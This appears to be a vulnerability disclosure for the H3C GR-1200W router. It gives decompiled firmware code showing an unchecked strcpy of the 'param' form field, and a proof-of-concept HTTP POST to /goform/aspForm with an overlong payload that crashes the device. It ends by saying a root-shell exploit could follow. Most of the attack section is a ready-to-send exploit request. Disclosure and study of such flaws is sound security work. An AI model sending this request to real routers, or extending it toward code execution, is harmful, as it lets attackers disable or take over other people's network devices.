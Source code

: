 ### Affected product

```
H3C GR-1200W  MiniGRW1A0V100R006
```

### Firmware

```
https://www.h3c.com/cn/d_202102/1383837_30005_0.htm
```
In function sub_4ACC30,the content obtained by the program from the parameter "param" is passed to v2 .Then the v2 is directly copied into the v3 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_4ACC30(int a1)
{
  const char *v2; // [sp+28h] [+28h]
  int v3[9]; // [sp+2Ch] [+2Ch] BYREF

  v3[0] = 0;
  v3[1] = 0;
  v3[2] = 0;
  v3[3] = 0;
  v3[4] = 0;
  v3[5] = 0;
  v3[6] = 0;
  v3[7] = 0;
  v2 = (const char *)sub_4E58C8(a1, "param", &unk_4FFD30);
  strcpy((char *)v3, v2);
  CFG_Set(0, 505155584, v3);
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=version_set&param=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```




You can see the router crash, and finally we can write an exp to get a root shell
